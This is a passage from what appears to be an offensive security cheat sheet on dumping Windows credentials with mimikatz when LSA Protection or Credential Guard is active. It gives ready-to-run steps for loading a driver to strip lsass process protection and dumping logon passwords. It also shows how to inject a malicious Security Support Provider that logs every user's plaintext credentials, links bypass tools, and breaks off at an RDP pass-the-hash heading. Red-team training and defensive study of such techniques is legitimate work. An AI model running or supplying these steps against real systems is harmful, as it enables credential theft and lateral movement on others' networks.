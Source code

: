 ⧉ Copied!

:exclamation: What if mimikatz fails to dump credentials because of LSA Protection controls ?

- LSA as a Protected Process (Kernel Land Bypass)
    
    ```powershell
    #Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
    reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa
    
    #Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
    #Now lets import the mimidriver.sys to the system
    mimikatz # !+
    
    #Now lets remove the protection flags from lsass.exe process
    mimikatz # !processprotect /process:lsass.exe /remove
    
    #Finally run the logonpasswords function to dump lsass
    mimikatz # sekurlsa::logonpasswords
    ```
    
    ⧉ Copied!
    
- LSA as a Protected Process (Userland "Fileless" Bypass)
    
    - [PPLdump](https://github.com/itm4n/PPLdump)
    - [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland)
- LSA is running as virtualized process (LSAISO) by Credential Guard
    
    ```powershell
    #Check if a process called lsaiso.exe exists on the running processes
    tasklist |findstr lsaiso
    
    #If it does there isn't a way tou dump lsass, we will only get encrypted data. But we can still use keyloggers or clipboard dumpers to capture data.
    #Lets inject our own malicious Security Support Provider into memory, for this example i'll use the one mimikatz provides
    mimikatz # misc::memssp
    
    #Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log
    ```
    
    ⧉ Copied!
    
- [Detailed Mimikatz Guide](https://adsecurity.org/?page_id=1821)
    
- [Poking Around With 2 lsass Protection Options](https://medium.com/red-teaming-with-a-blue-team-mentaility/poking-around-with-2-lsass-protection-options-880590a72b1a)
    

### Remote Desktop Protocol

If the host we want to lateral move to has "RestrictedAdmin" enabled, we can pass the hash using the RDP protocol and get an interactive session without the plaintext password.

- Mimikatz:
    